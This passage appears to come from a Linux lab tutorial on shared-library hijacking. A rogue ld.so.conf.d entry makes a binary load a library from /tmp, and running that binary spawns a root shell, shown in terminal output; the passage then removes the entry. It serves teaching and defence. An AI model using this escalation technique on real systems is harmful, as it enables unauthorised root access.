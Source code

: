`ldd` output **BEFORE** executing `ldconfig`:

```bash
low@ubuntu:~/so-files/evil$ ldd /usr/bin/myexec
	linux-vdso.so.1 (0x00007ffc00ff9000)
	libcustom.so => /lib/libcustom.so (0x00007f7b7e24d000)
	libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f7b7e05b000)
	/lib64/ld-linux-x86-64.so.2 (0x00007f7b7e268000)
low@ubuntu:~/so-files/evil$ 
```

`ldd` output **AFTER** executing `ldconfig`:

```bash
low@ubuntu:~/so-files/evil$ sudo /usr/sbin/ldconfig
low@ubuntu:~/so-files/evil$ ldd /usr/bin/myexec
	linux-vdso.so.1 (0x00007fff9b6cd000)
	libcustom.so => /tmp/libcustom.so (0x00007f63a510f000)
	libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f63a4f1d000)
	/lib64/ld-linux-x86-64.so.2 (0x00007f63a512a000)
low@ubuntu:~/so-files/evil$
```

Now we execute the binary:

```bash
low@ubuntu:~/so-files/evil$ /usr/bin/myexec
Message from myexec.c!
I'm the bad library!
I'm trying to spawn a root shell...
Check your shell!
root@ubuntu:~/so-files/evil# id
uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),120(lpadmin),132(lxd),133(sambashare),1000(low)
root@ubuntu:~/so-files/evil# whoami
root
root@ubuntu:~/so-files/evil# 
```

We can see that we have escalated privileges.

Exit out of the root shell:

```bash
root@ubuntu:~/so-files/evil# exit
```

Now remove the configuration file:

```bash
low@ubuntu:~/so-files/evil$ sudo rm /etc/ld.so.conf.d/shouldnt_be_here.conf
```

Now reload the `ld` configuration with `ldconfig`:

```bash
low@ubuntu:~/so-files/evil$ ldd /usr/bin/myexec
	linux-vdso.so.1 (0x00007ffd4cd08000)
	libcustom.so => /tmp/libcustom.so (0x00007f150e0a7000)
	libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f150deb5000)
	/lib64/ld-linux-x86-64.so.2 (0x00007f150e0c2000)
low@ubuntu:~/so-files/evil$ sudo ldconfig
low@ubuntu:~/so-files/evil$ ldd /usr/bin/myexec
	linux-vdso.so.1 (0x00007ffeaefb4000)
	libcustom.so => /lib/libcustom.so (0x00007f35cf80a000)
	libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f35cf618000)
	/lib64/ld-linux-x86-64.so.2 (0x00007f35cf825000)
low@ubuntu:~/so-files/evil$ 
```
